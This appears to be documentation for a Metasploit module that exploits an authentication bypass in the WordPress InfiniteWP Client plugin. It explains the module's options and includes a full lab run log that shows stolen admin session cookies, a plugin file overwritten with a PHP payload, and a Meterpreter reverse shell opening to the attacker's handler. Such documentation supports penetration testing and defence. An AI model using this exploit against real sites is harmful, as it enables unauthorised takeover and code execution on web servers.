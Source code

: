 ## Vulnerable Application

This module exploits an authentication bypass in the WordPress
InfiniteWP Client plugin to log in as an administrator and execute
arbitrary PHP code by overwriting the file specified by `PLUGIN_FILE`.

The module will attempt to retrieve the original `PLUGIN_FILE` contents
and restore them after payload execution. If `VerifyContents` is set,
which is the default setting, the module will check to see if the
restored contents match the original.

Note that a valid administrator username is required for this module.

### Setup

Download <https://downloads.wordpress.org/plugin/iwp-client.1.9.4.4.zip>
and follow <https://wordpress.org/plugins/iwp-client/#installation>.

### Targets

```
Id  Name
--  ----
0   InfiniteWP Client < 1.9.4.5
```

## Options

**USERNAME**

Set this to a known, valid administrator username. Authentication will
be bypassed for this user.

**PLUGIN_FILE**

Set this to a plugin file to insert the payload into, relative to the
plugins directory, which is normally `/wp-content/plugins`. The file
must exist and be writable by the web user. It will be overwritten and
later restored.

**VerifyContents**

Verify that the restored contents of `PLUGIN_FILE` match the original.
This is the default setting.

## Scenarios

### InfiniteWP Client 1.9.4.4

```
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Found version 1.9.4.4 in the custom file
[*] Bypassing auth for admin at http://127.0.0.1:8080/
[+] Successfully obtained cookie for admin
[*] Cookie: wordpress_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7COxBLq33okE0wpLhPExpGTmYwiVFKf9lxPMikSWH9Gzf%7C52db8d17e2e078af4cc32f7c50a36114c2c325c031f3e10dc7bea303c7dba604; wordpress_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7COxBLq33okE0wpLhPExpGTmYwiVFKf9lxPMikSWH9Gzf%7C52db8d17e2e078af4cc32f7c50a36114c2c325c031f3e10dc7bea303c7dba604; wordpress_logged_in_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7COxBLq33okE0wpLhPExpGTmYwiVFKf9lxPMikSWH9Gzf%7C44ecac44335ad633ea98045a7085c4947fee015b700b8b7d9463dd44d2388bb2; wordpress_sec_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7C1h94K6uHKvFtqDB7jrIthpauRgc3eavVak6DVOjAHn3%7C9dfc5a01eb1df39b91ec09823e0b44e9a36490a096f5205dc2209664f689bdc9; wordpress_sec_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7C1h94K6uHKvFtqDB7jrIthpauRgc3eavVak6DVOjAHn3%7C9dfc5a01eb1df39b91ec09823e0b44e9a36490a096f5205dc2209664f689bdc9; wordpress_logged_in_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7C1h94K6uHKvFtqDB7jrIthpauRgc3eavVak6DVOjAHn3%7C240d956e7a43f2ed3193171df429c8a8fb9ba3bac2f9805cdf88789f90a186df;
[*] Retrieving original contents of /wp-content/plugins/index.php
[+] Successfully retrieved original contents of /wp-content/plugins/index.php
[*] Contents:
<?php
// Silence is golden.
[*] Overwriting /wp-content/plugins/index.php with payload
[*] Acquired a plugin edit nonce: 9901ed8f55
[*] Edited plugin file index.php
[+] Successfully overwrote /wp-content/plugins/index.php with payload
[*] Requesting payload at /wp-content/plugins/index.php
[*] Restoring original contents of /wp-content/plugins/index.php
[*] Sending stage (38288 bytes) to 192.168.56.1
[*] Acquired a plugin edit nonce: 9901ed8f55
[*] Edited plugin file index.php
[+] Current contents of /wp-content/plugins/index.php match original!
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:58534) at 2020-01-18 14:50:39 -0600

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : 4e8791809581
OS          : Linux 4e8791809581 4.9.184-linuxkit #1 SMP Tue Jul 2 22:58:16 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
